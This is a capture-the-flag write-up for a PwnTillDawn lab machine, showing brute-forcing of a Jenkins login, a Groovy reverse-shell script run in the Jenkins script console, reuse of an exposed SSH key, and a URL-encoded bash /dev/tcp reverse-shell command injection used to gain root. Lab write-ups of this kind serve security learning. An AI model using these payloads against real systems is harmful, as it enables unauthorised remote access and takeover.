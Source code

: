 # 10.150.150.38 ( JUNIORDEV )- PWNTILLDAWN WRITEUP

The following ports were found using rustscan

![](images/rustscan_results.png)

---

I served the ports to nmap and got found a http site

![](images/nmap_results.png)

---
It was a jekins login page.  
I tried the usual default login pairs but none worked.

![](images/jekins_failed_default.png)

---
After some digging I decided to use hydra to bruteforce it

![](images/hydra_command.png)

---
We got a hit!

![](images/hydra_success.png)

---
I inputed the details and we have a dashboard now.

![](images/jekins_dashboard.png)

---
Looked around and found a flag under the `people` tab

![](images/people.png)

---
Looked around a bit more and found out i could run scripts here. Found a walkthrough on how to get a shell using "Jekins Groovy Scirpt" here: `https://blog.pentesteracademy.com/abusing-jenkins-groovy-script-console-to-get-shell-98b951fa64a6`  

---
I pasted the code into the groovy scripts input box 

```
String host="ip";
int port="port";
String cmd="bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();

```
---
Then started a netcat listener and ran the script

![alt text](images/shell.png)

---

Found another Flag

![alt text](images/flag70.png)

---

Ran Linpeas but no dice, looked around and found another user `juniordev`, the user has a `.ssh` folder but i cannot `-ls -la` the folder due to permission issues

![](images/junirdevlsla.png)

---
But funny enough I can `cat` out it's presumed contents:

![](images/cat.png)

---
Copy paste and ssh into junior dev and voila we are juniordev

![alt text](images/jdevterminal.png)

---
Ran `Linpeas` again, no dice. Tried some suggested exploits, nothing. Looked a bit close and found something, a port that didn't show up during recon.

![](images/ports.png)
--
Looked into it a bit more with `pspy`

![image of pspy](images/pspy.png)
--
Used ssh local port forwarding to open the local page:  
`ssh -L 8080:127.0.0.1:8080 juniordev@10.150.150.38 -i id_rsa -fN`   
and open my local page, we have a page now.

![alt text](images/pypage.png)

It looks like a simple additiion page created in python.  
There might be a chance to do some command injection.  

---  
There is.

`%2Fbin%2Fbash+-i+>%26+%2Fdev%2Ftcp%2F10.66.67.138%2F4444+0>%261`

![](images/burp.png)
![](images/root.png)

Found a flag, alongside an image that could be a flag. Transferred it and took a look at the pic.  

---

Found a way to transfer it here `https://medium.com/@PenTest_duck/almost-all-the-ways-to-file-transfer-1bd6bf710d65`  

Got the image, opened it and the flag was there in plain text.  
  
  ---
DONE.  

